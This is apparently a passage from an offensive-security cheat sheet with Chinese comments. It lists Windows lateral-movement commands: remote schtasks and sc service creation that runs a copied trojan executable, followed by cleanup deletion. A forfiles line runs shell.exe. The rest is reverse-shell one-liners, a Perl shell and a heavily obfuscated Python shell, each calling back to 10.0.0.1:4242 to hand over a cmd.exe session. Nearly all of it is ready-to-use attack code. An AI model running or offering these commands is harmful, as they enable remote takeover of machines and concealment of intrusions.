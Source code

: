 ### schtasks

```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```

### SC

```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

### forfiles

```bash
forfiles /c shell.exe
```

---

## Other

### perl

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
